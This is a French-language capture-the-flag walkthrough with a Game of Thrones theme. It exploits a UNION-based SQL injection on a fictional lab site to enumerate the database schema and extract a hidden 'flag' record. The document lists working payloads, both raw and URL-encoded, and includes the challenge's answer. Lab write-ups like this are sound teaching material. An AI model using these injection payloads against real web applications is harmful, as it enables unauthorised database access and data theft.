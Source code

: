 # 🗂️ Injection SQL (CWE-89) UNION

## 🎯 Objectif
Grâce au passe récupéré, John infiltre Castral-Roc et découvre un livre verrouillé répertoriant les armes Lannister. Grâce à une injection SQL Union, il y accède et trouve la localisation du feu grégeois, une menace pour la flotte des Stark.

**Flag attendu :** ville:emplacement

---

## ⚙️ Environnement
- **Prérequis :** Etre connecté avec le cookie de session du garde

---

## 🚀 Étape 1 : Déterminer le nombre de colonne de la bdd : 

```sql
' ORDER BY 1 --
```

Ne pas oublier d'encoder l'url : 
**?member=%27+ORDER+BY+1+--+**
Donc :
http://castral-roc.lannisport.south/famillelannister.php?member=%27+ORDER+BY+1+--+

On incrémente le nombre jusqu'a obtenir une erreur, dans notre cas lorsque l'on rentre 3 nous otenons une erreur, ansi le nombre de colonne est le dernier chiffre valide donc 2.

---

## Étape 2 : Identifier les colonnes visibles

```sql
' UNION SELECT 1,2 --
```

Une fois l'url encodée : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+1,2+--+

Ici si nous la bdd nous retourne 1:2 cela indique que nous pouvons exploiter les colonnes 

---

## Étape 3 : Déterminer le nom des tables de la bdd 

```sql
' UNION SELECT table_name,table_schema FROM information_schema.tables --
```

Encodé : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+table_name,table_schema+FROM+information_schema.tables+--+

On trouve ici : 

**battle_ressources : lannisport_db**

**lannister_family : lannisport_db**

---

## Étape 4 : Déterminer le nom des colonnes de la table battle_ressources 

```sql
' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name='battle_ressources' --
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+column_name,data_type+FROM+information_schema.columns+WHERE+table_name='battle_ressources'+--+

On trouve : 

**emplacement : varchar**

**id : int**

**type : varchar**

**ville : varchar**

---

## Étape 5 : Extraire l'emplacement du Feu Grégoire
```sql
' UNION SELECT type, CONCAT(ville,' ' ,emplacement) FROM+battle_ressources -- 
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+type,+CONCAT(ville,'+',emplacement)+FROM+battle_ressources+--+

On trouve alors : 

Feu Grégeois : Castral Roc Cave secrète sous la forteresse